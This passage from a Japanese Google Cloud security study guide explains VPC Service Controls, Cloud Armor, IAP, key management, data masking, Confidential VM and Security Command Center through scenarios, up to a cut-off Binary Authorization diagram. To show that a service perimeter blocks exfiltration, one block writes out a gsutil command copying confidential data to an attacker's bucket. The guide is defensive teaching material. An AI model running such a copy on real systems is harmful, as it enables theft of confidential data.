- **VPC Service Controls (VPC SC)**: Google Cloud のマネージドサービス（BigQuery, Cloud Storage, Vertex AI 等）の周囲にセキュリティ境界を定義し、境界外からのアクセス遮断および境界内リソースから外部リソースへのデータ持ち出し（Data Exfiltration）を防止するサービス。
- **サービス境界（Service Perimeter）**: VPC SC の基本単位。プロジェクト単位で境界を設定し、保護対象の API サービス（制限付きサービス）を指定します。
- **境界ブリッジ（Perimeter Bridge）**: 異なるサービス境界に属するプロジェクト間で、境界を維持したまま双方向の安全な通信を許可する接続方式。
- **Ingress / Egress ルール**: VPC SC において、境界を越えたアクセスを特定のクライアント（IP、ID、アクセスレベル）や外部プロジェクトに限定してきめ細かく許可する方向性ルール。
- **Google Cloud Armor**: Google のインフラ規模を活用した分散型 DDoS 防御、および OWASP Top 10 リスク（SQL インジェクション、XSS 等）を緩和する Web アプリケーションファイアウォール（WAF）。
- **Identity-Aware Proxy (IAP)**: 仮想マシン（Compute Engine）や社内 Web アプリケーションに対し、パブリック IP や踏み台サーバー（Bastion Host）を介さずに、HTTPS / SSH / RDP 接続を IAM 認証およびコンテキスト認識で仲介するプロキシ。
- **Private Service Connect (PSC)**: 異なる VPC ネットワークやプロデューサーサービス、Google API に対し、消費者側の VPC 内のプライベート IP エンドポイント経由で直接アクセスを可能にする機能。VPC ピアリングのような IP アドレスの重複競合や推移的ルーティングの制約が発生しません。
- **階層型ファイアウォールポリシー（Hierarchical Firewall Policies）**: 組織やフォルダレベルで定義され、配下の全 VPC ネットワークに強制適用されるファイアウォールルール。プロジェクト管理者が無効化できない組織共通のセキュリティガードレールとして機能します。
- **Secure Web Proxy**: 送信トラフィック（Egress）に対し、外部 Web サイトへの接続を URL、FQDN、カテゴリ、TLS インスペクションに基づいてきめ細かく制御・監査するクラウドネイティブなプロキシサービス。

### 2. 重要トピック

#### 1. プライベート Google アクセス方式の比較マトリクス

Google Cloud 環境内のワークロードやオンプレミス環境から Google API（Storage, BigQuery 等）へアクセスする際、インターネットを経由させないための複数のアクセス方式が存在します。

| アクセス方式 | 接続元 | 接続先 | 使用する IP レンジ | VPC SC との親和性 | 主な用途・特徴 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **プライベート Google アクセス (PGA)** | 同一 VPC 内の VM / サブネット | Google API / サービス | デフォルトの VIP（`default-domains`） | 制限付き VIP へのルーティングが必要 | サブネット単位で有効化。外部 IP を持たない VM が Google サービスへ直接アクセス可能。 |
| **オンプレミス用プライベート Google アクセス** | オンプレミス拠点（VPN / Interconnect 経由） | Google API / サービス | プライベート VIP (`199.36.153.8/30`) または制限付き VIP (`199.36.153.4/30`) | `restricted.googleapis.com` を利用 | オンプレミスからインターネットを経由せずにハイブリッド経由で Google API を利用。 |
| **Private Service Connect (PSC)** | VPC またはオンプレミス | Google API または自社/サードパーティサービス | 消費者 VPC 内の任意のプライベート IP アドレス | 非常に高い（PSC 経由で VPC SC 境界内へアクセス可能） | クライアント側の VPC 内に `/32` のプライベート IP を割り当て、DNS をマッピングする最新の推奨方式。IP 競合なし。 |

- **アーキテクトの選定基準**:
  - **最新のベストプラクティス**: 新規設計においては、柔軟な IP 設計が可能で VPC ピアリングの制約を受けない **Private Service Connect (PSC)** の採用が推奨されます。
  - **VPC SC によるデータ持ち出し防止の徹底**: レガシーな環境で VPC SC を適用する場合、通常のパブリック VIP ではなく、VPC SC でサポートされているサービスのみに通信を制限する **制限付き VIP (`restricted.googleapis.com`)** へのルーティングと DNS 設定を確実に構成します。

#### 2. VPC Service Controls によるデータ持ち出し（Data Exfiltration）遮断メカニズム

攻撃者や悪意のある内部者が、盗み出した正規のクレデンシャルを用いて機密データを社外の Google Cloud アカウントへ転送しようとするシナリオにおいて、通常の IAM と VPC SC の防御動作の違いは以下の通りです。

```text
[攻撃シナリオ: 社内 VM から社外の個人 Cloud Storage バケットへデータをコピー]
  $ gsutil cp gs://company-confidential-bucket/data.csv gs://attacker-personal-bucket/

【IAM のみの環境の場合】
  1. 社内バケットへのアクセス ──► 社内サービスアカウントの権限で [許可]
  2. 外部個人バケットへの書き込み ──► 外部バケットが公開設定、または攻撃者が権限付与 ──► [許可 (情報漏洩成立)]

【VPC Service Controls を適用した環境の場合】
  1. 社内プロジェクトを「サービス境界 A」内に配置
  2. 社内バケットからの読み出し ──► 境界内からのリクエストとして [許可]
  3. 外部バケットへの書き込み ──► 宛先の個人バケットは「境界外」のリソース
  4. VPC SC ポリシーエンジンが作動 ──► 【即座にリクエスト遮断 (VPC SC Violation)】
```

### 3. 実践シナリオ

#### シナリオ 2-1: 金融機関における VPC Service Controls による個人バケットへのデータ持ち出し遮断

- **状況**: 金融機関のデータ分析環境において、BigQuery および Cloud Storage に極めて機密性の高い顧客取引データが保存されているが、認証済みのアナリストが正規の権限を使って外部の個人 Google Cloud アカウント（自前プロジェクトの GCS バケット）へデータをコピーして持ち出すリスクを遮断したい場合
- **対応**: 分析用プロジェクトを包含する VPC Service Controls のサービス境界（Service Perimeter）を作成し、BigQuery API および Cloud Storage API を保護対象サービス（Restricted Services）として登録し、境界外への Egress ルールをデフォルト拒否に設定する。
- **結果**: アナリストが社内バケットからデータを読み出すことは可能である一方、境界外に存在する任意の外部バケットに対する書き込みや転送リクエストが VPC SC レベルで自動的に遮断される。
- **解説**: VPC Service Controls は、プリンシパルの IAM 権限の有無に関わらず、リクエストの発信元ネットワークと宛先リソースの境界所属関係を評価してデータ持ち出しを物理的にブロックできるためです。IAM 権限を絞り込むだけでは、外部バケット側で書き込み権限が付与されている場合に通信をブロックできず要件を満たせません。
- **参考ドキュメント**:
  - [VPC Service Controls の概要](https://docs.cloud.google.com/vpc-service-controls/docs/overview?hl=ja): サービス境界アーキテクチャとデータ持ち出し対策。

#### シナリオ 2-2: Identity-Aware Proxy (IAP) によるパブリック IP を持たない VM へのセキュア SSH 接続

- **状況**: 開発チームが Compute Engine インスタンス群を運用しているが、セキュリティポリシーによりすべての VM から外部パブリック IP アドレスを撤廃し、かつ従来の踏み台サーバー（Bastion Host）の運用負荷と不正ログインリスクを排除したい場合
- **対応**: 全 VM の外部 IP を削除してプライベート IP のみに構成し、Google の IAP 転送 IP レンジ（`35.235.240.0/20`）からのポート 22（SSH）インバウンドを許可するファイアウォールルールを作成し、開発者に `roles/iap.tunnelResourceAccessor` ロールを付与して `gcloud compute ssh --tunnel-through-iap` 経由で接続させる。
- **結果**: インターネット上に一切の SSH ポートを公開することなく、Google の強固な IAM 認証および 2 段階認証を経由した暗号化トンネルを通じて安全に VM 管理が可能となる。
- **解説**: IAP TCP 転送を利用することで、踏み台サーバーを構築・パッチ管理することなく、Google のゼロトラスト基盤経由でセキュアなリモートアクセスを実現できるためです。踏み台サーバーを設置して特定 IP からのみ SSH を許可する構成は、踏み台自体のパッチ管理負荷や資格情報漏洩時の踏み台侵害リスクが残るため不適格です。
- **参考ドキュメント**:
  - [TCP 転送での IAP の使用](https://docs.cloud.google.com/iap/docs/using-tcp-forwarding?hl=ja): パブリック IP なしでの安全な SSH / RDP アクセス。

#### シナリオ 2-3: Google Cloud Armor による SQL インジェクションおよびレイヤ 7 DDoS 攻撃の緩和

- **状況**: 公開 Web アプリケーションをグローバル外部 HTTP(S) ロードバランサ（Cloud Load Balancing）の背後で運用しているが、海外の特定地域からの異常なトラフィック急増（HTTP Flood）および SQL インジェクション攻撃を検知し、Web サーバーに到達する前にエッジで自動緩和したい場合
- **対応**: ロードバランサのバックエンドサービスに Google Cloud Armor セキュリティポリシーを適用し、OWASP Top 10 用の事前構成済み WAF ルール（`sqli-v33-stable`）を有効化するとともに、IP レート制限ルールおよび地域（Geo-blocking）制限ルールを設定する。
- **結果**: 悪意のある SQL インジェクションペイロードを含むリクエストや急激な大量リクエストが、Google のグローバルエッジネットワークにおいて即座に 403 Forbidden で遮断され、バックエンドのコンピュート負荷とデータベースへの脅威が完全に排除される。
- **解説**: Cloud Armor は Google のグローバルエッジで動作し、インフラに到達する前のレイヤ 7 およびレイヤ 3/4 攻撃を吸収・ブロックできるためです。Compute Engine インスタンス内にソフトウェア型 WAF（ModSecurity 等）をインストールする方式は、DDoS によるネットワーク帯域枯渇やインスタンスの CPU 逼迫を防ぐことができず不適格です。
- **参考ドキュメント**:
  - [Google Cloud Armor の概要](https://docs.cloud.google.com/armor/docs/cloud-armor-overview?hl=ja): WAF ルールと DDoS 対策。

#### シナリオ 2-4: 階層型ファイアウォールポリシーによる組織横断の通信ガードレール強制

- **状況**: 組織配下に数百のプロジェクトが存在し、各開発チームが独自のファイアウォールルールを作成しているが、全社的なコンプライアンスとして、いかなるプロジェクトであってもインターネット全体（`0.0.0.0/0`）からの SSH（ポート 22）および RDP（ポート 3389）の直接インバウンド接続を絶対に禁止したい場合
- **対応**: 組織の最上位レベルで階層型ファイアウォールポリシー（Hierarchical Firewall Policy）を作成し、優先度高でポート 22 および 3389 への全外部トラフィックを拒否（DENY）するルールを定義して配下の全フォルダ・プロジェクトに強制継承させる。
- **結果**: 各プロジェクトの管理者が個別の VPC で `Allow 0.0.0.0/0:22` のルールを作成した場合であっても、組織レベルの階層型ポリシーが優先評価され、危険なポート開放が確実に無効化される。
- **解説**: 階層型ファイアウォールポリシーは VPC ファイアウォールルールよりも先に評価され、下位プロジェクト側でオーバーライドできない強制力を持つためです。プロジェクトごとに個別の VPC ファイアウォールルールを定期監査して削除する運用は、監査のタイムラグの間に侵入を許すリスクがあり要件を満たせません。
- **参考ドキュメント**:
  - [階層型ファイアウォール ポリシーの概要](https://docs.cloud.google.com/firewall/docs/firewall-policies-overview?hl=ja): 組織レベルのネットワークガードレール。

#### シナリオ 2-5: Secure Web Proxy による送信トラフィックの URL / FQDN ベース監査とフィルタリング

- **状況**: プライベートサブネット内の仮想マシン群が、外部の特定の SaaS API やパッケージリポジトリ（例: `*.github.com`, `pypi.org`）と通信する必要があるが、悪意のある C2（Command & Control）サーバーへの通信を防止するため、IP アドレスベースではなく FQDN および URL パス単位でアウトバウンド通信を厳格に制限・監査したい場合
- **対応**: VPC 内に Secure Web Proxy をデプロイし、許可された FQDN リストおよび URL パスのみを許可するポリシーを構成し、クライアント VM の送信プロキシ設定として適用する。
- **結果**: 許可された正規の外部ドメインとの HTTPS 通信のみが成立し、未認可の外部サーバーへのアウトバウンド接続やデータ送出がプロキシレベルで遮断・ログ記録される。
- **解説**: Secure Web Proxy はクラウドネイティブなマネージドサービスであり、IP アドレスが動的に変化するクラウドサービスに対しても FQDN や URL パス単位できめ細やかな送信トラフィック制御を提供できるためです。Cloud NAT のみを利用する方式は、IP / ポートベースのルーティングしか行えず、悪意のある外部 Web サイトへの接続を URL レベルで制御できないため不適格です。
- **参考ドキュメント**:
  - [Secure Web Proxy の概要](https://docs.cloud.google.com/secure-web-proxy/docs/overview?hl=ja): クラウド送信トラフィックの保護。

### 4. 参考ドキュメント & 推奨ハンズオン

#### 公式一次ドキュメント
- [VPC Service Controls のベスト プラクティス](https://docs.cloud.google.com/vpc-service-controls/docs/overview?hl=ja): 境界アーキテクチャ設計。
- [Google Cloud Armor の概要](https://docs.cloud.google.com/armor/docs/cloud-armor-overview?hl=ja): WAF および DDoS 対策。
- [Identity-Aware Proxy (IAP) の概要](https://docs.cloud.google.com/iap/docs/concepts-overview?hl=ja): ゼロトラストプロキシの実装。
- [階層型ファイアウォール ポリシーの概要](https://docs.cloud.google.com/firewall/docs/firewall-policies-overview?hl=ja): 全社ネットワーク統制。
- [Private Service Connect の概要](https://docs.cloud.google.com/vpc/docs/private-service-connect?hl=ja): プライベートサービス公開と接続。

#### 推奨ハンズオン・ラボ（実機検証）
- [Build and Secure Networks in Google Cloud (Skill Badge)](https://www.skills.google/paths/15):
  - **学習目標**: 共有 VPC、Cloud Armor WAF ポリシー、IAP トンネルによる安全な VM 管理を実機構築。

---

## Section 3: 確実なデータ保護 (約 23%)

本セクションでは、Google Cloud におけるデータのライフサイクル（保存中、転送中、使用中）全体にわたる保護技術、暗号鍵管理、機密データ保護（Sensitive Data Protection / Cloud DLP）、シークレット管理、および AI / ML ワークロードのプライバシー保護が問われます。エンベロープ暗号化のメカニズムから、CMEK / HSM / EKM の技術選定、個人情報（PII）の仮名化・フォーマット保持暗号化、Confidential Computing（使用中暗号化）の実装までを網羅します。



### 1. セクション概要

クラウド環境におけるデータセキュリティは、単に「ストレージにアクセス制限をかける」だけでは不完全です。データがどこに保存され（At Rest）、ネットワークをどう流れ（In Transit）、CPU やメモリ上でどう処理されているか（In Use）のすべてのフェーズにおいて、暗号化とアクセスの最小化を担保する必要があります。

Google Cloud では、すべての顧客データが保存時にデフォルトで AES-256 により自動暗号化されます。しかし、コンプライアンス規制（PCI DSS, HIPAA, GDPR 等）やデータ主権の要件を満たすためには、暗号鍵の管理権限を顧客自身が保持する「顧客管理暗号鍵（CMEK）」や、クラウド外部の HSM で鍵を保管する「Cloud EKM」、さらにはメモリ内の平文データすら保護する「Confidential Computing」の適用が不可欠となります。

#### 重要キーワード

- **デフォルトの暗号化（Default Encryption）**: Google Cloud に保存されるすべてのデータに適用される標準の暗号化。Google が鍵の生成・保管・ローテーションを完全管理します。
- **顧客管理暗号鍵（CMEK: Customer-Managed Encryption Keys）**: Cloud KMS（Key Management Service）を用いて、顧客が暗号鍵のライフサイクル（作成、ローテーション頻度、無効化、破棄）を直接制御する方式。
- **Cloud HSM**: FIPS 140-2 レベル 3 認定を受けたハードウェアセキュリティモジュール（HSM）クラスタ内で暗号鍵をホスト・保護するフルマネージドサービス。
- **Cloud External Key Manager (Cloud EKM)**: Google Cloud の外部（オンプレミスの自社 HSM やサードパーティの鍵管理システム）で鍵を保管・管理し、Cloud KMS を介して Google サービスから利用させる方式。
- **エンベロープ暗号化（Envelope Encryption）**: データを暗号化する「データ暗号化鍵（DEK: Data Encryption Key）」と、その DEK を暗号化する「鍵暗号化鍵（KEK: Key Encryption Key）」を分離する多層暗号化アーキテクチャ。
- **Sensitive Data Protection (旧 Cloud DLP)**: テキスト、構造化データ（BigQuery）、非構造化データ（Cloud Storage）内の機密情報（クレジットカード番号、マイナンバー、氏名等）を自動検出し、マスキング、トークン化、仮名化を行うサービス。
- **フォーマット保持暗号化（FPE: Format-Preserving Encryption）**: 暗号化後も元のデータの形式や桁数（例: 16 桁のカード番号形式）を維持する暗号化手法。既存データベースのスキーマやアプリケーションロジックを変更せずに暗号化を適用可能。
- **Confidential Computing (Confidential VM / GKE)**: AMD SEV や Intel TDX などのハードウェア支援型暗号化技術を利用し、CPU やメモリ内で処理中のデータ（Data in Use）をハードウェアレベルで暗号化・隔離する技術。
- **Secret Manager**: API キー、パスワード、証明書などのシークレット情報を暗号化して安全に一元管理し、バージョン管理や IAM による厳密なアクセス制御を提供するサービス。

### 2. 重要トピック

#### 1. 暗号鍵管理方式の選定比較マトリクス

Google Cloud で利用可能な 4 つの暗号鍵管理アプローチについて、セキュリティ強度、コンプライアンス適合性、運用負荷、および可用性リスクのトレードオフを理解することが極めて重要です。

| 暗号化方式 | 鍵の保管場所 | 鍵のライフサイクル制御 | 規制要件・コンプライアンス | 運用オーバーヘッド | 主な可用性リスク |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **デフォルト暗号化** | Google 内部の KMS | Google が完全自動管理 | 一般的な商用要件 | ゼロ（設定不要） | なし（Google が冗長性を完全保証） |
| **CMEK (ソフトウェア)** | Cloud KMS | 顧客（ローテーション・無効化） | SOC 2, ISO 27001 等の自前鍵管理要件 | 低（KMS の IAM と鍵設定のみ） | 鍵を誤って破棄した場合、復元不可能 |
| **Cloud HSM (CMEK)** | FIPS 140-2 Level 3 認定 HSM | 顧客（HSM バックエンドで管理） | 金融・医療等の厳格なハードウェア鍵要件 | 中（HSM 鍵のプロビジョニングとコスト） | 鍵の破棄リスクに加え、HSM 固有のコスト増 |
| **Cloud EKM (外部鍵)** | 外部オンプレミス / サードパーティ HSM | 顧客がオンプレミス側で完全制御 | 厳格なデータ主権（カストディ規制） | 高（外部ネットワーク・HSM の運用保守） | 外部 HSM へのネットワーク切断時にサービス停止 |

- **アーキテクトの選定基準**:
  - **標準的な規制遵守**: 顧客管理の監査証跡や、必要に応じた即時暗号化無効化（Crypto-shredding: 暗号化消去）が求められる場合は **CMEK** を標準採用します。
  - **金融・暗号資産・公的規制**: ハードウェアでの保護が義務付けられている場合は **Cloud HSM** を選定します。
  - **データ主権と自社物理管理の義務付け**: クラウドプロバイダに鍵の物理的所有権すら渡してはならない法規制が存在する場合にのみ **Cloud EKM** を採用し、冗長ネットワーク接続（Interconnect）を二重化して可用性リスクを担保します。

#### 2. エンベロープ暗号化の処理メカニズム

大規模な分散データストアにおいて、すべてのデータを単一のマスターキーで直接暗号化することは、暗号化処理のパフォーマンス低下および鍵の漏洩リスクの観点から非推奨です。Google Cloud ではエンベロープ暗号化を採用しています。

```text
【データの暗号化フロー】
1. アプリケーション/ストレージがメモリ内でランダムな「DEK（データ暗号化鍵）」を生成
2. DEK を使用して平文データを高速暗号化（AES-256）
3. Cloud KMS に DEK を送信し、KMS 内の「KEK（鍵暗号化鍵 / CMEK）」で DEK を暗号化（Wrap）
4. 暗号化されたデータとともに「暗号化された DEK」を並べてストレージに保存（平文 DEK はメモリから即座に破棄）

【データの復号フロー】
1. ストレージから「暗号化されたデータ」と「暗号化された DEK」を読み出す
2. Cloud KMS に「暗号化された DEK」を送信し、KEK による復号（Unwrap）を要求（※IAM 権限検証）
3. 復号された「平文 DEK」をメモリ内で受け取り、暗号化データを復号して利用
```

### 3. 実践シナリオ

#### シナリオ 3-1: 機密データ漏洩防止のための Sensitive Data Protection による自動マスキング

- **状況**: コールセンターのオペレーターが入力した顧客対応メモ（非構造化テキスト）が毎日 Cloud Storage にアップロードされ、BigQuery でテキスト分析されているが、メモ内にクレジットカード番号やマイナンバーなどの個人情報（PII）が誤って平文で含まれており、アナリストへ開示する前に確実に自動秘匿化したい場合
- **対応**: Sensitive Data Protection（Cloud DLP）の検査・変換ジョブを設定し、組み込みの InfoType（`CREDIT_CARD_NUMBER`, `JAPAN_INDIVIDUAL_NUMBER` 等）を用いて PII を検出し、テキスト内の機密部分を暗号化トークン化またはマスキング文字列（例: `[PII-REDACTED]`）に変換してから分析用 BigQuery テーブルに出力する。
- **結果**: 分析業務に必要な文脈情報を損なうことなく、機密情報が自動的にマスキングされ、分析担当者や外部委託先からの偶発的な個人情報漏洩が完全に防止される。
- **解説**: Sensitive Data Protection を利用することで、非構造化テキストに含まれる多種多様な機密データを高精度に自動検出・非識別化（De-identification）できるためです。正規表現のみを用いた自前のバッチスクリプトを作成する手法は、未知の形式や表記揺れへの対応が困難で誤検知・検知漏れが発生するため不適格です。
- **参考ドキュメント**:
  - [Sensitive Data Protection の概要](https://docs.cloud.google.com/sensitive-data-protection/docs?hl=ja): 機密データの自動検出と変換。

#### シナリオ 3-2: BigQuery における列レベルおよび行レベルセキュリティによる職掌分散

- **状況**: 人事・給与データベースを BigQuery で一元管理しているが、一般のアナリストには氏名や所属部署のみの閲覧を許可し、基本給や役職手当などのセンシティブな給与情報列を特定の人事部特権ユーザーにのみ限定して閲覧させたい場合
- **対応**: BigQuery の「ポリシー タグ（Policy Tags）」を Dataplex / Data Catalog で作成して給与カラムに適用し、人事部グループにのみ `Fine-Grained Reader` ロールを付与することで列レベルセキュリティを構成し、さらに必要に応じて所属部門に基づく行レベルアクセスポリシーを定義する。
- **結果**: 単一のデータテーブルを共有したまま、クエリ実行者の権限に応じてセンシティブ列が自動的にアクセス拒否またはマスクされ、不要なテーブル複製を伴わずに厳格な最小権限アクセスが達成される。
- **解説**: BigQuery の列レベルセキュリティを利用することで、データセットやテーブルを分割することなく、単一の信頼できる情報源（Single Source of Truth）に対してきめ細やかな権限制御を適用できるためです。アクセス権ごとにビュー（View）を分割して個別に権限管理する手法は、ビューの数が増加した際のメンテナンスや元テーブル更新時の同期破綻リスクが高いため不適格です。
- **参考ドキュメント**:
  - [BigQuery 列レベルのセキュリティの概要](https://docs.cloud.google.com/bigquery/docs/column-level-security-intro?hl=ja): ポリシータグによる列アクセス制御。

#### シナリオ 3-3: 金融規制に対応した Cloud HSM による CMEK 暗号化と即時暗号化消去

- **状況**: 金融決済アプリケーションにおいて、法令により暗号鍵を FIPS 140-2 レベル 3 認定のハードウェア内で保護することが義務付けられており、かつ契約終了時やインシデント発生時には、バックアップデータを含めたすべての暗号化データを即座に復号不可能（Crypto-shredding）にしたい場合
- **対応**: Cloud KMS で保護レベル「HSM」を指定して鍵リングとキーを作成し、Cloud Storage バケットおよび Cloud SQL インスタンスに CMEK として適用し、契約終了時には Cloud KMS 上で該当キーのプライマリバージョンを破棄（Destroy）する。
- **結果**: ハードウェア保護要件を満たした強固な暗号化が実現されるとともに、KMS 内の KEK を破棄するだけで、ストレージ上に残存するすべての暗号化データ（DEK で暗号化された実データ）が瞬時に復号不能となる。
- **解説**: Cloud HSM を用いた CMEK によりハードウェア要件をクリアし、エンベロープ暗号化の特性を活かした「暗号化消去（Crypto-shredding）」により、物理的なストレージ完全消去を待つことなく安全なデータ破棄が完了するためです。Google のデフォルト暗号化に依存する方式は、顧客自身の判断による即時暗号化破棄が実行できず、規制要件を満たせません。
- **参考ドキュメント**:
  - [Cloud HSM の概要](https://docs.cloud.google.com/kms/docs/hsm?hl=ja): ハードウェアセキュリティモジュールによる鍵保護。

#### シナリオ 3-4: Confidential Computing による使用中データ（メモリ内平文）の完全暗号化

- **状況**: 医療機関が患者のゲノムデータを Compute Engine 上のコンテナで解析しているが、クラウドプロバイダの管理者や同一物理ホスト上の他プロセスからのメモリダンプ、またはハイパーバイザレベルの不正アクセスリスクを排除し、処理中のメモリ内データすら保護したい場合
- **対応**: 対象の仮想マシンを「Confidential VM」（AMD SEV 搭載）として作成し、メモリ暗号化を有効化してワークロードを実行する。
- **結果**: ゲスト OS のコードを変更することなく、CPU のハードウェア専用暗号化エンジンによってメモリ空間全体が専用キーでインライン暗号化され、ホスト OS やハイパーバイザからもメモリ内平文を読み取ることが不可能となる。
- **解説**: Confidential Computing は、データのライフサイクルにおける「使用中データ（Data in Use）」をハードウェアレベルで保護する標準機能であり、パフォーマンス低下を最小限に抑えながら極めて機密性の高い計算処理を保護できるためです。アプリケーション層でデータを独自暗号化・復号しながら処理する方式は、開発コストが膨大になり、結局 CPU 処理時にはメモリ上で平文となるため本質的な解決になりません。
- **参考ドキュメント**:
  - [Confidential VM の概要](https://docs.cloud.google.com/confidential-computing/confidential-vm/docs/confidential-vm-overview?hl=ja): 使用中データのハードウェア保護。

#### シナリオ 3-5: Secret Manager と Workload Identity による動的シークレットマウント

- **状況**: GKE 上で稼働するマイクロサービスが、外部決済サービスの API トークンおよびデータベース接続パスワードを必要としているが、これらを Git リポジトリのマニフェストや Kubernetes Secret（Base64 エンコードのみ）に平文で保存することを厳禁としたい場合
- **対応**: 機密情報を Google Cloud の Secret Manager に登録し、GKE クラスタで Workload Identity を構成した上で、Secret Manager アドオン（Secrets Store CSI Driver）を使用して Pod のファイルシステムにボリュームとしてシークレットを動的マウントさせる。
- **結果**: Kubernetes の etcd やコンテナイメージ内にシークレットが保存されることなく、Pod 起動時にのみメモリ上のテンポラリボリュームとして安全にシークレットが提供される。
- **解説**: Secret Manager と CSI Driver を連携させることで、Google Cloud の厳格な IAM と Cloud Audit Logs によるアクセス監査を受けながら、安全に Pod へ資格情報を注入できるためです。Kubernetes Secret に直接 Base64 で格納する運用は、etcd へのアクセス権を持つクラスタ管理者やマニフェスト閲覧者全員にシークレットが露出するため不適格です。
- **参考ドキュメント**:
  - [Secret Manager の概要](https://docs.cloud.google.com/secret-manager/docs/overview?hl=ja): API キーやパスワードの一元管理。
  - [GKE での Secret Manager の使用](https://docs.cloud.google.com/secret-manager/docs/overview?hl=ja): CSI Driver によるマウント。

### 4. 参考ドキュメント & 推奨ハンズオン

#### 公式一次ドキュメント
- [エンベロープ暗号化の概要](https://docs.cloud.google.com/kms/docs/envelope-encryption?hl=ja): DEK と KEK の暗号化アーキテクチャ。
- [Cloud Key Management Service (KMS) の概要](https://docs.cloud.google.com/kms/docs?hl=ja): 暗号鍵のライフサイクル管理。
- [Sensitive Data Protection のドキュメント](https://docs.cloud.google.com/sensitive-data-protection/docs?hl=ja): 機密データの自動検査と仮名化。
- [Confidential Computing の概要](https://docs.cloud.google.com/confidential-computing/confidential-vm/docs/confidential-vm-overview?hl=ja): 使用中データの保護。
- [Secret Manager のドキュメント](https://docs.cloud.google.com/secret-manager/docs?hl=ja): シークレット管理と自動ローテーション。

#### 推奨ハンズオン・ラボ（実機検証）
- [Protect Sensitive Data with Cloud Logging, Cloud KMS, and Sensitive Data Protection (Skill Badge)](https://www.skills.google/paths/15):
  - **学習目標**: Sensitive Data Protection による機密データの検査・秘匿化、Cloud KMS による暗号鍵の生成とバケット暗号化、監査ログの集約を実機演習。

---

## Section 4: オペレーションの管理 (約 20%)

本セクションでは、Google Cloud におけるセキュリティ運用の自動化、サプライチェーンセキュリティ、包括的な集中ロギング・ネットワークモニタリング、および Security Command Center（SCC）を中心とした脅威検知とインシデントレスポンスが問われます。CI/CD パイプラインにおける自動脆弱性スキャン、Binary Authorization による改ざん防止、Cloud Audit Logs の集約分析、そしてセキュリティ侵害をリアルタイムで検知・修復する SIEM / SOAR 連携アーキテクチャを体系的に学びます。



### 1. セクション概要

現代のクラウドセキュリティ運用（SecOps）において、手動による設定確認やログの目視監視は完全に破綻しています。数百のプロジェクトと数千のクラウドリソースが存在する環境では、「予防的ガードレールの自動強制（Shift-Left Security）」と「異常検知・自動修復のリアルタイム化（Continuous Monitoring & Response）」を両輪で運用する必要があります。

Google Cloud のセキュリティ運用基盤は、Google 自身の脅威インテリジェンス（Mandiant 等）が組み込まれた Security Command Center（SCC）を中枢神経とし、Cloud Logging、VPC フローログ、Packet Mirroring などの詳細なテレメトリを統合して、攻撃者のラテラルムーブメントや構成ドリフトを即座に可視化・遮断します。

#### 重要キーワード

- **Security Command Center (SCC)**: Google Cloud の統合セキュリティおよびリスク管理プラットフォーム。アセットインベントリ、脆弱性検出（Security Health Analytics）、脅威検出（Event Threat Detection, Container Threat Detection）を提供します。
- **Security Health Analytics (SHA)**: クラウドリソースの設定ミス（公開バケット、脆弱なファイアウォール、古い TLS 設定等）をスキャンし、CIS ベンチマーク等の業界基準に照らして評価する SCC の組み込み検出機能。
- **Event Threat Detection (ETD)**: Cloud Logging のログストリーム（Cloud Audit Logs 等）を機械学習と脅威インテリジェンスでリアルタイム解析し、マルウェア感染、ブルートフォース攻撃、コインマイニング、不審な権限借用を検出する機能。
- **Binary Authorization**: コンテナイメージが本番環境（GKE や Cloud Run）にデプロイされる前に、信頼できるビルドパイプラインによって暗号署名（Attestation）されていることを検証し、未承認イメージの実行をブロックするデプロイ時セキュリティゲート。
- **Artifact Analysis**: Artifact Registry にプッシュされたコンテナイメージ内の OS パッケージや言語パッケージの脆弱性（CVE）を自動スキャンし、SBOM（ソフトウェア部品表）を生成するサービス。
- **Cloud Audit Logs**: システム内で「誰が・いつ・どこで・何をしたか」を記録する監査ログ。管理活動ログ（Admin Activity）、データアクセスログ（Data Access）、システムイベントログ（System Event）、ポリシー拒否ログ（Policy Denied）から構成されます。
- **集約シンク（Aggregated Sinks）**: 組織やフォルダレベルで定義され、配下の全プロジェクトから発生するログを一箇所（集中ロギング用プロジェクトの BigQuery、Pub/Sub、Cloud Storage）へ自動集約するログルーター機能。
- **Cloud IDS (Intrusion Detection System)**: パケットミラーリングを活用してネットワークトラフィックをインライン検査し、マルウェア通信、スパイウェア、コマンド＆コントロール（C2）通信を検出するクラウドネイティブな侵入検知システム。
- **Packet Mirroring**: 特定の Compute Engine インスタンスやサブネットのネットワークトラフィック（レイヤ 3〜7）を複製し、セキュリティ検査用アプライアンスやコレクターへ転送する機能。

### 2. 重要トピック

#### 1. Security Command Center (SCC) の機能と検出エンジンの比較マトリクス

SCC は Google Cloud の SecOps の核となるサービスです。どの検出エンジンがどのような脅威をカバーしているかを正確に把握する必要があります。

| 機能 / 検出エンジン | 検査対象 | 検出タイミング | 主な検出内容 | 典型的なアクション |
| :--- | :--- | :--- | :--- | :--- |
| **Security Health Analytics (SHA)** | リソースの構成・設定（メタデータ） | 定期スキャン（バッチ）および構成変更時 | 設定不備（パブリックバケット、オープンな SSH、MFA 未設定、古い暗号スイート） | 修復手順の提示、自動修復スクリプトの起動 |
| **Event Threat Detection (ETD)** | ログストリーム（Cloud Audit Logs 等） | ほぼリアルタイム（ストリーミング） | 不審な IAM 権限変更、データ持ち出し試行、マルウェア、外部からの不正ログイン | Cloud Functions / Pub/Sub 経由で即時隔離 |
| **Container Threat Detection (CTD)** | GKE ノード上のコンテナランタイム | リアルタイム（カーネルレベル） | 実行時攻撃（リバースシェル、未知のバイナリ実行、悪意のあるスクリプト実行） | Pod の終了、ノードの隔離 |
| **Web Security Scanner (WSS)** | 公開 App Engine, GKE, Compute Engine | オンデマンド / スケジュールスキャン | OWASP Top 10（XSS、平文パスワード送信、安全でないライブラリ） | 開発チームへのチケット起票・修正 |

- **アーキテクトの選定基準**:
  - **設定ミスとコンプライアンス管理**: CIS ベンチマークへの継続的適合や構成ドリフトの検出には **Security Health Analytics** を活用します。
  - **ゼロデイ攻撃・アカウント乗っ取りの早期検知**: 不審なアクティビティやデータ持ち出しをリアルタイムで検知・封じ込めするには **Event Threat Detection** と Pub/Sub 自動連携を構築します。

#### 2. Binary Authorization によるセキュアなソフトウェアサプライチェーン（SLSA）

開発者がコードをコミットしてから本番クラスタにデプロイされるまでのサプライチェーン攻撃を防ぐため、Binary Authorization は暗号署名に基づく強制チェックポイントを提供します。

```text
[ソースコード (Git)]
       │
       ▼
【Cloud Build パイプライン】
       ├─ 単体テスト・静的解析の実行
       ├─ コンテナイメージのビルド
